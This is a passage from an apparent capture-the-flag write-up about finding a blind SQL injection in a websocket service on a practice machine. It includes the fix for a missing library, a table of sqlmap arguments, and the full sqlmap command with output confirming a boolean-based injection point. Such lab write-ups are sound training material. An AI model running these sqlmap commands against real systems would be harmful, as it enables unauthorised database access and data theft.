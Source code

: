 This confirms my assumption that I’m dealing with a SQL injection vulnerability. Looking through the requests in burpsuite it seems that submissions for this field are sent over a websocket connection. Looking closer at the URL, I notice port `9091` from the `nmap` and `netsat` scans.

![Untitled](./images/Untitled13.png)

This is a blind SQL injection - no data from the database comes back in the response, only one of two responses. In this case, this will be `Ticket Exists`, or `Ticket Doesn't Exist`.

### SQLMap

Doing this manually is a rather laborious task. So instead, I’m going to do this in SQLMap. It’s possible that SQLmap shows the following error message

> [19:59:41] [CRITICAL] sqlmap requires third-party module 'websocket-client' in order to use WebSocket functionality

The problem is that SQLMap is missing the Python websockets library. On Kali this is an easy fix

```bash
$ sudo apt install python3-websocket
```

For the initial discovery, I pass the following arguments

| Argument | Value                           | Description                                        |
| -------- | ------------------------------- | -------------------------------------------------- |
| -u       | ws://soc-player.soccer.htb:9091 | The URL to connect to                              |
| --data   | '{"id": "1234"}'                | The data or payload to send over the connection.   |
| --dbms   | mysql                           | Letting SQLMap know that the backing dbms is MySQL |
| --batch  | /                               | Use the default answer for any question.           |
| --level  | 5                               | Level of tests to perform (default)                |
| --risk   | 3                               | Risk of tests to perform. (default 1)              |

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3

...[snip]...
[20:02:28] [INFO] testing 'MySQL UNION query (78) - 81 to 100 columns'
[20:02:30] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[20:02:30] [INFO] checking if the injection point on (custom) POST parameter 'JSON id' is a false positive
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 372 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
```